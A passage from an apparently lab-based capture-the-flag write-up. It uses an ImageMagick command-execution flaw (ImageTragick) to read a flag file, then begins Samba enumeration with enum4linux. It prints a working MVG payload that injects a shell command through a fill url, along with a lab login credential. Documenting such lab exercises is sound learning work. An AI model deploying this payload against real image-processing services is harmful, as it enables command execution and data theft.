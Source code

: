 The login credential is j.doe:password. The web is actually vulnerable to [Imagemagick arbitrary command execution](https://www.exploit-db.com/exploits/39791). Since our primary objective is to read the flag.txt like the previous task, draft the following payload and save as .png file.

```
push graphic-context
viewbox 0 0 640 480
fill 'url(https://127.0.0.1/oppsie.jpg"|cat /flag.txt > hack.txt")'
pop graphic-context
```

After that visit user info on the top right corner and upload the payload.

![image](/assets/images/THM/2020-08-14-plathora/9.png)

After that visit the following URL and capture the flag.

```
http://<machine IP>:8091/vulnbank/online/hack.txt
```

That's all for the CTF on web vulnerability. Time to move on.

## Task 1-6: Capture user's flag

Still, remember the Port 445 and port 22 on the Nmap? Now, do the enumeration on the samba port using enum4linux.

```
enum4linux <machine IP>
```

![enum](/assets/images/THM/2020-08-14-plathora/10.png)
